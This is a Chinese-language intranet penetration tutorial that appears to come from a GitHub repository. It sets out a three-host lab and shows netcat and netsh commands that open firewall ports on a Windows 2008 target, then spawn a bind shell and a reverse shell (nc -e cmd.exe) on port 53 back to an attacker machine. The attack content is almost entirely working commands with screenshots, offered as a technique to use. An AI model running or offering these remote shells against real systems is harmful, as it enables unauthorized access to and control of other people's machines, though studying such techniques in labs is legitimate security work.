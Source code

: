 [TOC]


# 内网渗透
## 0） 工具
[netcat工具下载地址](https://eternallybored.org/misc/netcat/)

## 1） 端口转发

*拓扑结构：*

| 名字 | 公网/内网 | IP |
|--------|--------|--------|
|   Win7专业版     |   攻击机子     |192.168.44.129(假设为自己公网IP)
|   Windows2008     |   目标边界机子     |192.168.44.133(假设为目标公网IP)
|   Win7渗透专用     |   目标内网机子     |192.168.44.130 (假设为目标内网IP)




### 1.1 netsh
1. 正向连接

```
Windows2008命令：↓

添加防火墙规则，允许外部来连接本地的 tcp 53 端口[入站允许]
Windows2008>netsh advfirewall firewall add rule name="nc bind shell" dir=in action=allow protocol=TCP localport=53

-l 监听53端口，-e 创建shell
Windows2008>c:\>nc -lvp 53 -e cmd.exe

结束后删除防火墙规则
Windows2008>netsh advfirewall firewall delete rule name="nc bind shell" dir=in protocol=TCP localport=53
```
```
Win7专业版命令：↓

-n 连接Windows2008的53端口
ske7Plus>nc -nv 192.168.44.133 53
```
![Windows2008 监听53端口](https://raw.githubusercontent.com/SkewwG/IntranetPenetration/master/imgs/nc/nc1.png)
![Win7专业版   连接53端口](https://raw.githubusercontent.com/SkewwG/IntranetPenetration/master/imgs/nc/nc2.png)

2. 反向连接
```
Win7专业版命令：↓

添加防火墙规则，允许 tcp 的 53 端口连入,然后再执行监听
ske7Plus>netsh firewall add portopening TCP 53 "nc reverse shell"
ske7Plus>nc -lvp 53
```
```
Windows2008命令：↓

添加防火墙规则，允许本地的 tcp 53 端口主动往外连[出站允许]
Windows2008>netsh advfirewall firewall add rule name="nc reverse shell" dir=out action=allow protocol=TCP localport=53

-n 连接目标ske7Plus的53端口，-e 创建shell
Windows2008>nc -nv 192.168.3.102 53 -e cmd.exe

结束后删除防火墙规则
Windows2008>netsh advfirewall firewall delete rule name="nc reverse shell" dir=out protocol=TCP localport=53
```
![Win7专业版   监听53端口](https://raw.githubusercontent.com/SkewwG/IntranetPenetration/master/imgs/nc/nc3.png)
![Windows2008 连接53端口](https://raw.githubusercontent.com/SkewwG/IntranetPenetration/master/imgs/nc/nc4.png)
